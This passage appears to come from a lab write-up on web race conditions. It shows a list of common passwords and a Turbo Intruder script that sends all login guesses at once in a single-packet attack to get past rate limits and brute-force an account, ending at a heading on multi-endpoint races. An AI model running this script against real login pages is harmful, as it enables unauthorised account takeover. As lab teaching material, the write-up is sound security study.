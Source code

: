 qwerty
123456789
12345
1234
111111
1234567
dragon
1234567890
michael
x654321
superman
1qaz2wsx
baseball
7777777
121212
000000

Turbo Intruder script:
```py
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard
    
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```
The table give us the password

![alt text](image-13.png)
## Multi-endpoint race conditions
